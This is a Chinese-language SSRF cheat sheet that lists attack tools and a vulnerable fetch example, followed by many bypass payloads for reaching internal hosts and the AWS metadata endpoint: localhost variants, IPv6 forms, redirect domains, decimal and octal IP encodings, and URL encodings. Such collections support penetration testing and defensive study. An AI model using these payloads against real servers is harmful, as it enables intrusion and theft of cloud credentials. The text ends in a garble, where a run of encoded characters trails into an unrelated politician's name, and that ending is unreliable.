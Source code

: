 # 服务端请求伪造

> 服务端请求伪造或SSRF是一种漏洞，攻击者可以利用该漏洞迫使服务器代表其发起请求。

## 概述

* [工具](#工具)
* [方法论](#方法论)
* [绕过过滤器](#绕过过滤器)
    * [默认目标](#默认目标)
    * [使用IPv6表示法绕过本地主机](#使用IPv6表示法绕过本地主机)
    * [通过域名重定向绕过本地主机](#通过域名重定向绕过本地主机)
    * [通过CIDR绕过本地主机](#通过CIDR绕过本地主机)
    * [使用罕见地址绕过](#使用罕见地址绕过)
    * [使用编码的IP地址绕过](#使用编码的IP地址绕过)
    * [使用不同编码绕过](#使用不同编码绕过)
    * [使用重定向绕过](#使用重定向绕过)
    * [使用DNS重绑定绕过](#使用DNS重绑定绕过)
    * [滥用URL解析差异绕过](#滥用URL解析差异绕过)
    * [使用PHP filter_var()函数绕过](#使用PHP filter_var()函数绕过)
    * [使用JAR方案绕过](#使用JAR方案绕过)
* [通过URL方案进行利用](#通过URL方案进行利用)
    * [file://](#file)
    * [http://](#http)
    * [dict://](#dict)
    * [sftp://](#sftp)
    * [tftp://](#tftp)
    * [ldap://](#ldap)
    * [gopher://](#gopher)
    * [netdoc://](#netdoc)
* [盲目的利用](#盲目的利用)
* [升级到XSS](#升级到XSS)
* [实验室](#实验室)
* [参考文献](#参考文献)

## 工具

* [swisskyrepo/SSRFmap](https://github.com/swisskyrepo/SSRFmap) - 自动化的SSRF模糊测试和利用工具
* [tarunkant/Gopherus](https://github.com/tarunkant/Gopherus) - 为各种服务器利用SSRF并获得远程命令执行生成gopher链接的工具
* [In3tinct/See-SURF](https://github.com/In3tinct/See-SURF) - 基于Python的扫描器，用于查找潜在的SSRF参数
* [teknogeek/SSRF-Sheriff](https://github.com/teknogeek/ssrf-sheriff) - 用Go编写的简单SSRF测试工具
* [assetnote/surf](https://github.com/assetnote/surf) - 返回一组可行的SSRF候选目标
* [dwisiswant0/ipfuscator](https://github.com/dwisiswant0/ipfuscator) - 在Go中快速、线程安全、直接且零内存分配的工具，用于迅速生成替代的IP(v4)地址表示形式
* [Horlad/r3dir](https://github.com/Horlad/r3dir) - 设计用于帮助绕过不验证重定向位置的SSRF过滤器的重定向服务，通过Hackvertor标签与Burp集成

## 方法论

SSRF是一种安全漏洞，当攻击者操纵服务器向意外位置发起HTTP请求时会发生这种情况。这通常发生在服务器处理用户提供的URL或IP地址时没有进行适当的验证。

常见的利用路径：

* 访问云元数据
* 泄露服务器上的文件
* 使用SSRF进行网络发现和端口扫描
* 向网络中的特定服务发送数据包，通常是为了在另一台服务器上实现远程命令执行

**示例**：服务器接受用户输入以获取URL。

```py
url = input("Enter URL:")
response = requests.get(url)
return response
```

攻击者提供恶意输入：

```ps1
http://169.254.169.254/latest/meta-data/
```

这会从AWS EC2元数据服务中获取敏感信息。

## 绕过过滤器

### 默认目标

默认情况下，服务端请求伪造用于访问托管在`localhost`或网络更深处的服务。

* 使用`localhost`

  ```powershell
  http://localhost:80
  http://localhost:22
  https://localhost:443
  ```

* 使用`127.0.0.1`

  ```powershell
  http://127.0.0.1:80
  http://127.0.0.1:22
  https://127.0.0.1:443
  ```

* 使用`0.0.0.0`

  ```powershell
  http://0.0.0.0:80
  http://0.0.0.0:22
  https://0.0.0.0:443
  ```

### 使用IPv6表示法绕过本地主机

* 使用未指定地址的IPv6 `[::]`

    ```powershell
    http://[::]:80/
    ```

* 使用IPv6回环地址 `[0000::1]`

    ```powershell
    http://[0000::1]:80/
    ```

* 使用[IPv6/IPv4地址嵌入](http://www.tcpipguide.com/free/t_IPv6IPv4AddressEmbedding.htm)

    ```powershell
    http://[0:0:0:0:0:ffff:127.0.0.1]
    http://[::ffff:127.0.0.1]
    ```

### 通过域名重定向绕过本地主机

| 域名                              | 重定向到      |
|-----------------------------------|---------------|
| localtest.me                      | `::1`         |
| localh.st                         | `127.0.0.1`   |
| spoofed.[BURP_COLLABORATOR]       | `127.0.0.1`   |
| spoofed.redacted.oastify.com      | `127.0.0.1`   |
| company.127.0.0.1.nip.io          | `127.0.0.1`   |

服务`nip.io`在这方面非常棒，它会将任何IP地址转换为DNS。

```powershell
NIP.IO 将 <anything>.<IP Address>.nip.io 映射到相应的 <IP Address>，即使是 127.0.0.1.nip.io 也会映射到 127.0.0.1
```

### 通过CIDR绕过本地主机

IPv4范围`127.0.0.0/8`专用于回环地址。

```powershell
http://127.127.127.127
http://127.0.1.3
http://127.0.0.0
```

如果你尝试在任何地址（如127.0.0.2, 127.1.1.1等）使用此范围内的地址，它仍然会解析为本地机器。

### 使用罕见地址绕过

你可以通过省略零来简写IP地址

```powershell
http://0/
http://127.1
http://127.0.1
```

### 使用编码的IP地址绕过

* 十进制IP位置

    ```powershell
    http://2130706433/ = http://127.0.0.1
    http://3232235521/ = http://192.168.0.1
    http://3232235777/ = http://192.168.1.1
    http://2852039166/ = http://169.254.169.254
    ```

* 八进制IP：IPv4的八进制格式处理方式因实现而异。

    ```powershell
    http://0177.0.0.1/ = http://127.0.0.1
    http://o177.0.0.1/ = http://127.0.0.1
    http://0o177.0.0.1/ = http://127.0.0.1
    http://q177.0.0.1/ = http://127.0.0.1
    ```

### 使用不同编码绕过

* URL编码：单次或双重编码特定URL以绕过黑名单

    ```powershell
    http://127.0.0.1/%61dmin
    http://127.0.0.1/%2561dmin
    ```

* 包含字母数字的编码：`①②③④⑤⑥⑦⑧⑨⑩⑪⑫⑬⑭⑮⑯⑰⑱⑲⑳⑴⑵⑶⑷⑸⑹⑺⑻⑼⑽⑾⑿⒀⒁⒂⒃⒄⒅⒆⒇⒈⒉⒊⒋⒌⒍⒎⒏⒐⒑⒒⒓⒔⒕⒖⒗⒘⒙⒚⒛ⒶⒷⒸⒹⒺⒻⒼⒽⒾⒿⓀⓁⓂ Nigel Farage